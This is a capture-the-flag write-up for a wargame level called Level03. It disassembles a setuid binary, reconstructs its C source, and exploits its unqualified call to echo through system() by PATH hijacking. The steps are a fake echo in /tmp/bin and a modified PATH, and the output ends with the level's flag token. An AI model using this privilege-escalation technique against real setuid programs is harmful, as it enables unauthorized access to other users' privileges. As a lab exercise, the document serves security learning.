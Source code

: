 # Level03

<!-- not here -->
<!-- ## HACKING THE ART OF EXPLOITATION
[the art of exploitation](https://repo.zenk-security.com/Magazine%20E-book/Hacking-%20The%20Art%20of%20Exploitation%20(2nd%20ed.%202008)%20-%20Erickson.pdf) -->

```bash
ls -la
# ouput: finally there is a binary file here, we gonna do some exploit 🤩
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
# run strings level03, you can use gdb or objdump
```
This file has a strange permissions the one that we don't see often is `s`<br/>
This tell us that this file can be run as ...<br/>

Using objdump<br/>
```bash
# d, --disassemble Display assembler contents of executable sections
objdump -d level03 -M intel | grep -A 26 "main>:"
# Output:
080484a4 <main>:
 80484a4:	55                   	push   ebp
 80484a5:	89 e5                	mov    ebp,esp
 80484a7:	83 e4 f0             	and    esp,0xfffffff0
 80484aa:	83 ec 20             	sub    esp,0x20
 80484ad:	e8 ee fe ff ff       	call   80483a0 <getegid@plt>
 80484b2:	89 44 24 18          	mov    DWORD PTR [esp+0x18],eax
 80484b6:	e8 d5 fe ff ff       	call   8048390 <geteuid@plt>
 80484bb:	89 44 24 1c          	mov    DWORD PTR [esp+0x1c],eax
 80484bf:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 80484c3:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80484c7:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 80484cb:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 80484cf:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 80484d3:	89 04 24             	mov    DWORD PTR [esp],eax
 80484d6:	e8 05 ff ff ff       	call   80483e0 <setresgid@plt>
 80484db:	8b 44 24 1c          	mov    eax,DWORD PTR [esp+0x1c]
 80484df:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80484e3:	8b 44 24 1c          	mov    eax,DWORD PTR [esp+0x1c]
 80484e7:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 80484eb:	8b 44 24 1c          	mov    eax,DWORD PTR [esp+0x1c]
 80484ef:	89 04 24             	mov    DWORD PTR [esp],eax
 80484f2:	e8 89 fe ff ff       	call   8048380 <setresuid@plt>
 80484f7:	c7 04 24 e0 85 04 08 	mov    DWORD PTR [esp],0x80485e0
 80484fe:	e8 ad fe ff ff       	call   80483b0 <system@plt>
 8048503:	c9                   	leave
 8048504:	c3                   	ret
```

As you can see, you can translate this assembly code to c code source<br/>

## source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");

```
the parts that are matter to us are the call to getegid, geteuid, setresgid, setresuid and system
the echo command runs without the full path, we can override this behavior by using our echo command<br/>
this is part `/usr/bin/env echo` is an instruction to set the PATH (as well as all the other NAME+VALUE pairs), and then run echo using the first directory in the PATH that contains the echo executable.<br/>

```bash
mkdir -p /tmp/bin
echo "getflag" > /tmp/bin/echo
chmod 777 /tmp/bin/echo
export PATH=/tmp/bin:$PATH
./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```